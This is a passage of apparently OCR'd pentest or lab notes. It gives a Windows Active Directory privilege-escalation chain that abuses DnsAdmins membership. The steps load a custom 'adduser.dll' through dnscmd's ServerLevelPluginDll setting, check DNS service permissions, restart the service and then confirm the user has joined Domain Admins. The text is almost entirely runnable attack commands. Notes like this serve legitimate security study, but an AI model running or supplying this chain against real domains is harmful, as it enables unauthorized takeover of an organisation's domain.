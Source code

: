         # using dnscmd, we can load a custom DLL
        # but for it to work, we need to be a privileged user - member of DnsAdmins

        Get-ADGroupMember -Identity DnsAdmins
        # confirm our user 'netadm' is part of DnsAdmins
        ```

        ```cmd
        # now, load custom DLL using dnscmd - mention full path
        # ServerLevelPluginDll is the option by which DLL path is not verified
        dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

        # we need to check if we can restart the DNS service

        # find user SID
        wmic useraccount where name="netadm" get sid

        # check permissions on DNS service
        sc.exe sdshow DNS
        # from the security descriptors, this user SID has 'RPWP' permissions
        # RP - service start, WP - service stop

        # so, we can stop the DNS service
        sc stop dns

        # start the DNS service
        sc start dns
        # the service will show as failed to start correctly, as part of process

        # confirm group membership for 'netadm'
        net group "Domain Admins" /dom
        